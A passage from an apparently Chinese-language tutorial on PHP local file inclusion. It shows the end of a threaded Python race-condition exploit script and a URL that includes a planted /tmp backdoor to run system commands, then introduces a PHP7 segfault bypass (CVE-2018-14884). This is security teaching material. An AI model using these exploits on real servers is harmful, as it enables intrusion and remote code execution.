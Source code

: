 ```python
    tp = []
    for i in range(0, poolsz):
        tp.append(ThreadWorker(e, l, maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write("r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__ == "__main__":
    main()
```



运行脚本Getshell

修改脚本之后，运行即可包含生成我们精心设置好的/tmp/Qftm后门文件

![0MeP3T.png](https://s1.ax1x.com/2020/10/01/0MeP3T.png)

拿到RCE之后，可以查看tmp下生成的后门文件

	http://192.33.6.145/index.php?file=/tmp/Qftm&Qftm=system(%27ls%20/tmp/%27)

#### php7 Segment Fault

#### 利用条件

	7.0.0 <= PHP Version < 7.0.28

#### 漏洞分析

在上面包含姿势中提到的包含临时文件，需要知道phpinfo同时还需条件竞争，但如果没有phpinfo的存在，我们就很难利用上述方法去getshell。

那么如果目标不存在phpinfo，应该如何处理呢？这里可以用 `php7 segment fault` 特性（[CVE-2018-14884](https://bugs.php.net/bug.php?id=75535)）进行Bypass。
